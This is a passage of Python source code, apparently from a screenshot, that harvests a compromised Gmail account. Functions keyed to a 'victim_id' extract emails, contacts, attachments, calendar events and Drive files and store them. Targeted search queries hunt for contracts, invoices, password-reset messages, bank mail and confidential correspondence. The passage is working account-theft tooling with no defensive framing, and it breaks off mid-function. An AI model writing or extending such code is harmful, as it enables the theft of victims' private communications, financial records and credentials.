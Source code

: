 ```python
            emails = await self.extract_emails_with_intelligence(
                gmail_service, 
                extraction_config.get('email_filters', {})
            )
            extraction_results['emails'] = emails
        
        # Extract contacts and analyze relationships
        if extraction_config.get('extract_contacts', True):
            contacts = await self.extract_and_analyze_contacts(gmail_service)
            extraction_results['contacts'] = contacts
        
        # Extract attachments và scan for sensitive content
        if extraction_config.get('extract_attachments', True):
            attachments = await self.extract_valuable_attachments(gmail_service)
            extraction_results['attachments'] = attachments
        
        # Additional data sources
        if extraction_config.get('extract_calendar', False):
            extraction_results['calendar_events'] = await self.extract_calendar_data(gmail_service)
        
        if extraction_config.get('extract_drive', False):
            extraction_results['drive_files'] = await self.extract_drive_intelligence(gmail_service)
        
        # Analyze và classify extracted data
        intelligence_analysis = await self.analyze_extracted_intelligence(extraction_results)
        
        # Store results với encryption
        await self.store_extracted_data(victim_id, extraction_results, intelligence_analysis)
        
        return {
            'extraction_results': extraction_results,
            'intelligence_analysis': intelligence_analysis,
            'extraction_summary': self.generate_extraction_summary(extraction_results)
        }
    
    async def extract_emails_with_intelligence(self, gmail_service, filters):
        """Advanced email extraction với content analysis"""
        
        # Build intelligent search queries
        search_queries = [
            'subject:contract OR subject:agreement OR subject:deal',  # Business contracts
            'subject:invoice OR subject:payment OR subject:billing',  # Financial data
            'subject:password OR subject:reset OR subject:verification', # Security data
            'from:bank OR from:financial OR from:credit',             # Banking communications
            'subject:confidential OR subject:private OR subject:internal' # Confidential data
        ]
        
        valuable_emails = []
        
        for query in search_queries:
            try:
                results = gmail_service.users().messages().list(
                    userId='me',
                    q=query,
                    maxResults=filters.get('max_per_query', 100)
                ).execute()
                
                for message_ref in results.get('messages', []):
                    # Get full message details
                    message = gmail_service.users().messages().get(
                        userId='me',
                        id=message_ref['id'],
```